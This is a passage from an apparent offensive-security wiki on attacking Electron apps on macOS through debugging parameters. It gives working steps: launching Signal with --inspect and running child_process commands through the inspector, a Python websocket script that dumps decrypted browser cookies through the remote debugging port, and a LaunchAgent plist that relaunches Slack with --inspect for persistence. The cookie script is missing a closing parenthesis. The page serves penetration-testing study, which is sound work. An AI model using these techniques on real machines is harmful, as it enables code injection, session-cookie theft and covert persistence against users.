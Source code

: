 {% code overflow="wrap" %}
```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
If the fuse **`EnableNodeCliInspectArguments`** is disabled, the app will **ignore node parameters** (such as `--inspect`) when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.

However, you could still use the **electron param `--remote-debugging-port=9229`** but the previous payload won't work to execute other processes.
{% endhint %}

Using the param **`--remote-debugging-port=9222`** it's possible to steal some information from the Electron App like the **history** (with GET commands) or the **cookies** of the browser (as they are **decrypted** inside the browser and there is a **json endpoint** that will give them).

You can learn how to do that in [**here**](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) and [**here**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and use the automatic tool [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) or a simple script like:

```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```

In [**this blogpost**](https://hackerone.com/reports/1274695), this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>--inspect</string>
    </array>
    <key>Label</key>
    <string>com.bytebreach.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```
